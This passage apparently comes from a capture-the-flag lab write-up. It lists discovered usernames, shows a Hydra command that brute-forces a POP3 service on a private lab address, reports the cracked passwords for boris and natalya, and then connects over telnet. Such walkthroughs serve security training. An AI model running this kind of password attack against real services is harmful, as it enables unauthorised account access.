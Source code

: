 - Here are the valid users who may be useful.

```
boris
natalya
xenia 
janus
admin
```

---

### Hydra password cracking → POP3

- Try to access the POP3 service

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt -s 55007 pop3://172.30.170.141 -t10 -I 
```

![hydra.png](./img/hydra.png)

- Found POP3 credentials

> **boris:secret1!**
**natalya:bird**
> 

---

### POP3 Access

```bash
telnet 172.30.170.141 55007 
```

